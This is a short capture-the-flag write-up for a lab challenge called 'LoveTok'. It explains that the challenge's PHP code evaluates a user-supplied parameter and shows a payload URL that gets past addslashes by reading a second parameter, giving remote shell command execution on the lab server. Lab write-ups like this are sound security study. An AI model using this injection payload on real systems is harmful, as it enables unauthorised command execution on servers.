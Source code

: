 # LoveTok
Checking out the source code can see there's an eval on a user supplied param.
Need to bypass the addslashes call. Can do so by referencing other params in the request, eg.:
`http://159.65.89.136:30636/?format=${system($_GET[1])}&1=ls+/`
